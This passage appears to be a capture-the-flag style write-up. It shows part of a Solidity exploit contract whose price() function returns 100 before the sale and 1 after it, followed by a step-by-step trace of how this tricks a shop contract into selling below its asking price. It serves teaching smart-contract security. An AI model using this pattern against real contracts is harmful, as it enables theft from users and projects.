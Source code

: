 ```solidity
    function price() external view returns (uint256) {
        // Check if the item has been sold
        bool sold = IShop(shop).isSold();
        
        if (sold) {
            // Second call - return a low price (less than 100)
            return 1;
        } else {
            // First call - return a high price (>= 100) to pass the check
            return 100;
        }
    }

    /**
     * @dev Execute the exploit to buy the item for less than asking price
     */
    function exploit() external {
        require(msg.sender == owner, "Not the owner");
        IShop(shop).buy();
    }

    function checkPrice() external view returns (uint256) {
        return IShop(shop).price();
    }

    function checkIsSold() external view returns (bool) {
        return IShop(shop).isSold();
    }
}
```

### How It Works - Step by Step

Let's trace through the exploit execution:

1. **Initial State**:
   - Shop: `price = 100`, `isSold = false`

2. **We call `shopExploit.exploit()`**:
   - This calls `shop.buy()`

3. **First `_buyer.price()` call** (in the `if` condition):
   - Shop calls our `price()` function
   - We read `shop.isSold()` → returns `false`
   - We return `100`
   - Check passes: `100 >= 100 && !false` ✓

4. **State change**:
   - Shop sets `isSold = true`

5. **Second `_buyer.price()` call** (to set final price):
   - Shop calls our `price()` function again
   - We read `shop.isSold()` → returns `true`
   - We return `1`
   - Shop sets `price = 1`
